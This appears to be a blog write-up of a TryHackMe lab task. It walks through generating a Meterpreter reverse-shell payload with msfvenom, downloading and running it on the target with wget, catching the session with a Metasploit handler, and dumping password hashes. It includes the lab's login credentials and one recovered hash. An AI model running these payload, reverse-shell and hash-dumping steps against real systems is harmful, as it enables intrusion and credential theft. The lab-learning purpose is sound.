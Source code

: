 ```yaml
---
title: "An Exercise in Metasploit"
excerpt: A short explanation of how to set a meterpreter shell to obtain password hashes of users.
date: 2025-09-19
---
```


This is task 6 in the room *Metasploit: Exploitation* on TryHackMe. The exercise shows nicely why the Metasploit framework is so powerful: essentially we create a payload through a single command and execute it on the target, providing us with a stable shell and root privileges.

We are given login credentials of one user, namely

```console
user: murphy
password: 1q2w3e4r
```

The goal is to get a meterpreter shell running on the target machine so we can dump the password hashes of all users. 

First, we generate a Linux Meterpreter payload on our local (attacker) machine as follows:

```text
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f elf -o meterpreter.elf
```

The individual constituents of the above command:
- `msfvenom`: A command-line utility that is part of the Metasploit Framework. Its main job is to generate and encode payloads.
- `-p`: The "payload" option.
- `linux/x64/meterpreter/reverse_tcp`: The target OS is Linux with 64-bit architecture. The actual payload, `meterpreter`, is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is typically deployed using in-memory DLL injection to reside entirely in memory.
- `reverse_tcp`: The payload will provide us with a reverse shell, i.e. an outbound TCP connection back to the attacker's machine.
- `LHOST`: **L**istening **Host**. The IP address of the attacker's machine where the payload should connect back to.
- `LPORT`: **L**istening **Port**. The port on the attacker's machine that will be listening for the incoming connection. Here, `4444` is just set as an example.
- `-f elf`: Specifies the **f**ormat to be of type `elf`. The .elf format is comparable to the .exe format in Windows.
- `-o meterpreter.elf`: We simply name the **o**utput `meterpreter.elf`.

Next, we make sure that the payload is executable:

```console
chmod +x meterpreter.elf
```

In order to transfer the payload to the target, we use a Python web server, since the user `murphy` might not have sufficiently elevated privileges for our task:

```console
python3 -m http.server 9000
```

After ssh-ing onto the target as user `murphy`, we fetch the payload, save it in `/tmp` and make sure it is executable, as seen in the next command. Notice that in a real-world (malicious/unauthorized) setting, this would have to be executed by means of phishing/social-engineering etc. In this controlled environment it is straightforward.

```text
wget http://<Your_IP>:9000/meterpreter.elf -O /tmp/meterpreter.elf
chmod +x /tmp/meterpreter.elf
/tmp/meterpreter.elf
```

Back on the attacker machine, we establish a listener, similar to a standard netcat-listener:

```text
msfconsole -q                                   # Start Metasploit interface
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <Your_IP>                             # Same IP as in payload
set LPORT 4444                                  # Same port as in payload
exploit
```

Now for the moment of truth. We run the executable on the target machine with the line

```console
./meterpreter.elf
```

If all goes well, this should just keep running in the CLI of the target and we should see the following output in out local attacker CLI, where we just started the listener:

```text
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> <Target_IP>:<Target_Port>)
meterpreter >
```

We now have a stable reverse shell connection. Check privileges with `getuid` or `whoami`. To dump all hashes, we can use the `post/linux/gather/hashdump` module, but we first need to background the current session. Finally, we run the exploit. Thus, we run the following commands:

```text
meterpreter > background        # Send session to background
use post/linux/gather/hashdump  # This was also the hint given by TryHackMe
set SESSION <ID>                # Replace <ID> with your session number
run
```

We find the hash of the other user (not `murphy`) to be `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`.






